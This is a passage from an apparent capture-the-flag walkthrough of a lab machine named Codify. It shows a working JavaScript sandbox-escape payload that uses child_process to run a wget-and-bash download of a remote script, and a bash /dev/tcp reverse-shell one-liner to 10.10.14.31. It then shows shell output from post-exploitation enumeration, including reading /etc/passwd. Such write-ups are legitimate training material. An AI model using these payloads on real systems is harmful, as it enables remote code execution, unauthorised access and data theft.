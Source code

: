 ```javascript
};
p.then();
```
Here we've got a http ping:
```bash
../p8/codify➤ python -m http.server 55555
Serving HTTP on 0.0.0.0 port 55555 (http://0.0.0.0:55555/) ...
10.10.11.239 - - [11/Jan/2024 17:27:37] code 404, message File not found
10.10.11.239 - - [11/Jan/2024 17:27:37] "GET /what.php HTTP/1.1" 404 -
```

Ok, so I was able to get a rev shell with these payload:
```javascript
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('wget 10.10.14.31:55556/x -O x; bash ./x'); }
            )
        }
    }
};
p.then();
```

The revshell: `bash -i >& /dev/tcp/10.10.14.31/55555 0>&1`

### Trying to get into joshua home dir
```bash
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ file pwned
file pwned
pwned: empty
svc@codify:~$ ls /home
ls /home
joshua
svc
svc@codify:~$ ls /home/joshua
ls /home/joshua
ls: cannot open directory '/home/joshua': Permission denied
svc@codify:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```